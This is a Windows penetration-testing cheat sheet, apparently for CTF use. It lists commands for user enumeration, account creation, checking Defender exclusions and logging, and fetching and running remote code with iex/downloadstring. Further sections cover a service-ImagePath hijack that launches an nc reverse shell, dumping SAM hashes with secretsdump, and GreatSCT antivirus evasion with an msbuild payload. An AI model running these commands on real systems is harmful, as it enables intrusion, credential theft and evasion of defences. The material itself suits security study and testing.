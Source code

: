 # Commands
## User Related
```powershell
# User info
whoami /all

# User info
net user

# Show groups
net group

# Show local groups
net localgroup <groupname>

# Add user to group
net group <groupname> /add <username>

# Create account
net user <username> <password> /add

# Create account (AD)
# This will force the command to execute on the domain controller instead of the local computer
net user <username> <password> /add /domain
```

## Basic
### System
```powershell
# Shows info about system (Look whether HotFixes are applied or not)
systeminfo

# Show drives
Get-PSDrive -PSProvider FileSystem

# Show hidden data streams
dir /R

# List Defender Exclusions (Requires local admin privileges)
Get-MpPreference | select Exclusion*

# PowerShell Logging Status
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\Transcription' -ErrorAction SilentlyContinue).EnableTranscripting
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ModuleLogging' -ErrorAction SilentlyContinue).EnableModuleLogging
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -ErrorAction SilentlyContinue).EnableScriptBlockLogging

# Download and execute files
iex(new-object net.webclient).downloadstring('remote_file')
```
### Download Files
```powershell
# Method 1
(new-object net.webclient).downloadfile(<remote_file>,<output_file>)

# Method 2
Invoke-WebRequest -Uri <source> -OutFile <output_file>

# Method 3
Import-Module BitsTransfer
Start-BitsTransfer -Source <url> -Destination <output_file>

# Method 4
certutil -urlcache -f <url> output_file<>
```

## Services
```bat
:: Get info
sc query <service>
reg query HKLM\System\CurrentControlSet\Services\<service>

:: Edit info
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v <value> /d <data> /f

:: Edit ImagePath and execute netcat command (assuming nc was uploaded before)
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v ImagePath /d "nc.exe <ip> <port> -e powershell.exe" /f
```



# Directories
```bash
# Powershell history log file
C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# See any suspicious apps 
"C:\Program Files" or "C:\Program Files (x86)"

# Apps on old windows versions
C:\Data\Users\app

# Code policies and passwords in files
C:\Program Files\windowspowershell\modules\packagemanagement

# Config files
C:\Windows\System32\config

# AD database file location
C:\Windows\NTDS
```

## Configuration Files
Most config files can be found in `C:\Windows\System32\config`     

### Get Info From Registry Hive
```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

## Mount Windows Shares and VHD Files
The Common Internet File System (CIFS) is a network file-sharing protocol. CIFS is a form of SMB.    
```bash
mount -t cifs //<ip>/<share> <mount_dir> -o user=<username>,password=<password>
```

### Mount VHD Files
One can use `guestmount` to mount a guest filesystem on the host.     
Install with: `apt install libguestfs-tools`

```bash
guestmount --add <vhd_file> --inspector --ro <mount_dir>
```

#### References
- [https://linux.die.net/man/1/guestmount](https://linux.die.net/man/1/guestmount)



# accesschk
AccessChk is a command-line tool for viewing the effective permissions on files, registry keys, services, processes, kernel objects, and more. This tool will be helpful to identify whether the current user can modify files within a certain service directory.      

```bat
:: Accept eula
accesschk.exe /accepteula

:: Access to services
accesschk.exe <user> -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services

:: Services access
accesschk.exe -uwcqv Users *
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *

:: Weak folder permission per drive
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\

```    
- [Github](https://github.com/ankh2054/windows-pentest).**  


## Example usage in CTF situations
- [https://snowscan.io/htb-writeup-control/#](https://snowscan.io/htb-writeup-control/#)
- [https://steflan-security.com/windows-privilege-escalation-weak-permission/](https://steflan-security.com/windows-privilege-escalation-weak-permission/)



# AV Evasion
## GreatSCT
```sh
# Download
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Inside GreatSCT.py
```sh
use 1
list
use 9
set lhost <ip>
sel lport <port>
generate
```
Now start the listener with `msfconsole -r file.rc` and execute the xml payload with:
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

## References
- [https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct](https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct)
- [https://github.com/GreatSCT/GreatSCT.git](https://github.com/GreatSCT/GreatSCT.git)



# Office Files
Modern `Office` documents are just zip archives with XML files so, just unzip it and look for data within the XML files.
```bash
unzip <file>
```

## oletools
```bash
# Download tools
sudo pip3 install -U oletools

# Extract macros
olevba -c <file>
```